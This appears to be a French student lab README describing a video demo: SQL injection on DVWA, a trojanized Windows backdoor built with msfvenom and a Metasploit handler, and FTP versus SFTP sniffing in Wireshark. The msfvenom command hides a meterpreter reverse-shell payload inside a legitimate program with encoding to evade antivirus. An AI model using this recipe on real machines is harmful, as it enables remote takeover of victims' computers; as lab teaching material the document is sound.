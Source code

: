 NGUELIFACK AWOUNFACK BRIGHT 

TSOPZONG HEROUANE 


lien google drive 

https://drive.google.com/file/d/1Mcbq2CL3I6ArNyT0ZqVg6arLITvk4RHP/view?usp=sharing



------------------ video -----------------
partie 1 : l'attaque SQL injrction sur une base de donnée de metaploitable2 DVWA

partie 2 : Attaque par bachdoor 
	-kali linux attaquante 
	-windows 7 
Dans notre machine kali nous allons cree notre backdoor en utilisant la commande 
msfvenom -a x86 --platforme windows -x nom_du_logiciel -k -p windows/meterpreter/reverse_tcp lhost= add_ip
lport=nom_du_port -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o "non_de_sorti.exe"

executer le code et ce rendre dans le repertoir ou est stocker notre backdoor puis l'intaller dans notre machine windows 
cible 

et nous revenons sur notre kali et lancons le module msconsole 
>use exploit/multi/handler 
>set windows/meterpreter/reverse_tcp
>set lhost ip_attaquant
>set lport nom_port
>run ( pour lancer l'attaque et attendre que la cible execute le backdoor)



partie 3 : sniffing du protacole FTP (ici tout est en clair dans wireshark)

ftp add_ip
entrez le nom_user
entrez le mot_pass_user
on peut faire un "get d'un fichier a fin de le telecharger sur notre machine  


partie 4 : snifing du SFTP (ici tout est encripter et non exploitable a partir de wireshark)
 sftp -okeyAlgorithme=+ssh_rsa nom_user@addr_ip
 on peut faire un "get d'un fichier afin de le telecharger sur notre machine 